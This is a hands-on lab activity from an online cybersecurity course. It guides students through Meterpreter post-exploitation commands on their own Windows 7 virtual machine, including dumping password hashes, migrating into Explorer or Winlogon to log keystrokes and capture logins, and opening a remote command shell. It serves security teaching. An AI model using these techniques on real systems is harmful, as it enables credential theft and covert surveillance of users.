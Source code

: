 ### ACTIVITY: METERPRETER COMMANDS

*This activity is ungraded.*

**Remember:** Watch this Demo video. Seeing me complete the activity first will help you understand each of the steps.

- [Meterpreter Demo](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/83c651745d4b4d2f9acbc4da11e5a0b5#5b18bc89ab7340848fc91851c6462db0)

**System:** During this activity, you’ll continue to use Metasploit as shown [in the previous activity](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/4226c71eac07499bafd3e4de46462a09).

**Software:** In this activity you will use these applications and resources that are included in the Kali VM:

- Metasploit
- Meterpreter

**Time:** This activity should take you approximately 30 minutes to complete.

#### Goal

- To use Meterpreter to gain information and work in a target machine.

#### Instructions

**Note:** Hit **Enter** after each command.

**Basic Commands**

To start this activity, you should have used Metasploit to configure and deliver an exploit through a payload to a Windows 7 VM running on your machine.

In the Meterpreter command line, enter each of these commands and note the information you receive.

| Command  | Information you will get…                                    |
| -------- | ------------------------------------------------------------ |
| sysinfo  | General information about the compromised system             |
| hashdump | Password hashes stored on the target machine.These hashes can be used in a brute force attack, a dictionary attack, or a rainbow table attack. |
| idletime | The amount of time since someone used the keyboard of the compromised system. |
| ps       | A list of every running process on the compromised system.Notice the process id for the cmd.exe window. |

Enter **kill** followed by the process id for the cmd.exe window. The cmd window will close.

Enter **ps**. Record the PID of explorer.exe, which you will used in the next part of this activity.

**Keystroke Recording**

Meterpreter’s migrate command lets you move your running code into a process that has interactive access to the compromised system.

Here, you’ll migrate the running payload into the Explorer.exe process owned by the active user. That will let you use the *keyscan_start* and *keyscan_dump*commands to log the user's keystrokes.

1. Enter **migrate** *followed by the PID of Explorer.exe that you recorded earlier*.
2. Enter **keyscan_start**.
3. Open up a text editor, and begin to type. 
   Be sure to use the arrow keys, the backspace key, and the delete key.
4. Open up a browser and go to *www.edx.org*.
5. Login with a username of ***bob*** and a password of *bobpassword*.
   **NOTE:** You will not be able to log in with any of these username/password combinations. They are provided to illustrate the key capture process.
6. Go to *mycourses.rit.edu*.
7. Login with a username of *bob* and a password of *bobpassword2*.
8. Go to *gmail.com*.
9. Login with a username of *bobiscool* and a password of *bobpassword3*.
10. Enter **keyscan_dump**. This will dump every keystroke since you initiated the *keyscan_start* command to the screen.
11. Enter **keyscan_stop**.

To capture system login information migrate the running payload to the *Winlogon* process to capture the credentials of all users logging into the system if the machine is running. Rebooting or shutting down the compromised system ends the meterpreter session.

**Shell Commands**

Enter **shell**. This opens a Windows command line interface that affects the compromised machine.

Execute these networking commands from that interface:

- Enter **ipconfig** to see the machine’s network configuration.
- Enter **arp –a** to see the machine’s ARP cache.
- Enter **ping 8.8.8.8** to send pings from the host machine to a Google Public DNS server.

With these commands, you can create a text file on the compromised machine:

1. **md bob** creates a directory called *bob*.
2. **dir bob\*.\*** verifies the previous step, showing the existence of the bob directory.
3. ***\*cd bob\**** changes current directory to the bob directory.
4. **echo “Ransomware!” > jonathan.txt** writes a message to a dynamically created file)
5. **type jonathan.txt** displays the contents of the file.
6. **del jonathan.txt** deletes the file
7. **cd ..** moves back up one directory.
8. **rd bob** removes the directory
9. **dir bob\*.\*** verifies the previous step, showing that there’s no bob directory anymore)

***After you've finished, answer the Check Your Work questions.\***

*You will continue to use meterpreter in the Windows 7 VM in the next activity. If you are not continuing now, use the instructions in the activity [Using Metasploit](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/4226c71eac07499bafd3e4de46462a09) to get started again.*